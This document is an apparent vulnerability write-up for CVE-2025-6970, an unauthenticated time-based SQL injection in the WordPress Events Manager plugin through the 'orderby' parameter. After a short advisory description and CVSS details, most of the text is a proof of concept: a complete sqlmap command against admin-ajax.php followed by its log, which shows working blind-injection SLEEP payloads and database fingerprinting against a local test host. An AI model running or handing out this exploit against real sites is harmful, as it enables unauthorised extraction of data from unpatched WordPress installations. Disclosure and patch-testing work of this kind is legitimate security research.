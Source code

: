 # CVE-2025-6970
Events Manager <= 7.0.3 - Unauthenticated SQL Injection via `orderby` Parameter

# Description

The Events Manager – Calendar, Bookings, Tickets, and more! plugin for WordPress is vulnerable to time-based SQL Injection via the ‘orderby’ parameter in all versions up to, and including, 7.0.3 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: events-manager
- **Affected Version**: 6.6.4.4
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2025-6970
- **Status**: Active

POC
---
```
sqlmap -u "http://kubernetes.docker.internal:8999/wp-admin/admin-ajax.php" --data="action=search_events&orderby=*" --method=POST --dbs --batch --level=3 --risk=2 --tamper=space2comment --dbms mysql --technique=T -v 3
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.8#pip}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:43:48 /2025-07-09/

[21:43:48] [DEBUG] cleaning up configuration parameters
[21:43:48] [INFO] loading tamper module 'space2comment'
[21:43:48] [DEBUG] setting the HTTP timeout
[21:43:48] [DEBUG] setting the HTTP User-Agent header
[21:43:48] [DEBUG] creating HTTP requests opener object
[21:43:48] [DEBUG] forcing back-end DBMS to user defined value
[21:43:48] [DEBUG] setting the HTTP Referer header to the target URL
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[21:43:48] [DEBUG] used the default behavior, running in batch mode
[21:43:48] [DEBUG] resolving hostname 'kubernetes.docker.internal'
[21:43:48] [INFO] testing connection to the target URL
[21:43:48] [DEBUG] declared web page charset 'utf-8'
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=237ee635040...841357e271'). Do you want to use those [Y/n] Y
[21:43:48] [DEBUG] used the default behavior, running in batch mode
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: action=search_events&orderby=(CASE WHEN (3275=3275) THEN SLEEP(5) ELSE 3275 END)
    Vector: (CASE WHEN ([INFERENCE]) THEN SLEEP([SLEEPTIME]) ELSE [RANDNUM] END)
---
[21:43:48] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[21:43:48] [INFO] testing MySQL
[21:43:48] [PAYLOAD] (CASE/**/WHEN/**/(QUARTER(NULL/**/XOR/**/NULL)/**/IS/**/NULL)/**/THEN/**/SLEEP(5)/**/ELSE/**/7129/**/END)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[21:43:55] [DEBUG] used the default behavior, running in batch mode
[21:43:55] [INFO] confirming MySQL
[21:43:55] [PAYLOAD] (CASE/**/WHEN/**/(SESSION_USER()/**/LIKE/**/USER())/**/THEN/**/SLEEP(5)/**/ELSE/**/4851/**/END)
[21:43:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[21:44:00] [PAYLOAD] (CASE/**/WHEN/**/(ISNULL(JSON_STORAGE_FREE(NULL)))/**/THEN/**/SLEEP(5)/**/ELSE/**/3817/**/END)
[21:44:05] [INFO] adjusting time delay to 1 second due to good response times
[21:44:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.2.28, Apache 2.4.62, PHP
back-end DBMS: MySQL >= 8.0.0
```
